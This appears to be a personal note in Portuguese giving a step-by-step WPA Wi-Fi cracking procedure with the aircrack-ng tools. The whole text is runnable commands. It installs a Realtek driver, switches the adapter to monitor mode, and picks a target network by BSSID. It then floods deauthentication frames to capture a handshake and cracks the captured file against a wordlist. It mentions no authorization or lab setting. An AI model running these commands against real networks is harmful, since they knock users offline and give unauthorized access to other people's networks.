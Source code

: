 git clone https://github.com/aircrack-ng/rtl8188eus

cd rtl8188eus

sudo -i

echo "blacklist r8188eu" to  "/etc/modprobe.d/realtek.conf"

exit

sudo make

sudo make install

sudo modprobe 8188eu

iwconfig

---

sudo ifconfig wlan0 down
sudo airmon-ng check kill
sudo iwconfig wlan0 mode monitor

sudo ifconfig wlan0 up
iwconfig
---
---
- pegando o bssid

sudo airodump-ng wlan0

- aqui deve ser pego o bssid e o ch (channel)

---
- verificando apenas a rede

sudo airodump-ng wlan0 -d 8C:44:4F:6E:85:02

---
- no primeiro terimnal

sudo airodump-ng -w hack1 -c 1 -d 8C:44:4F:6E:85:02
  - ou
sudo airodump-ng -w hack1 -c 1 --bssid 8C:44:4F:6E:85:02

- -w é o nome do arquivo
- -c é o ch (channel)
- -d bssid

- no segundo terminal

sudo aireplay-ng --deauth 0 -a 8C:44:4F:6E:85:02 wlan0

- entao volte no primero terminal e la deve ter adicionado algo no fim da primeira linha
- assim podemos parar o segundo terminal (Ctrl + C)
- caso nao apareca, tente conectar na rede
- assim no primeiro terminal, no fim da linha, deve ter algo como <WPA handshake> bssid>

---
- agora opdemos usar o wireshark no nosso arquivo hack1.cap
wireshark hack1.cap
---

- agora colocaremos o wlan0 em modo managed
sudo airmon-ng stop wlan0
  - ou
sudo iwconfig wlan mode managed

---

aircrack-ng hack1.cap -w /home/kali/Descktop/wordlist.txt
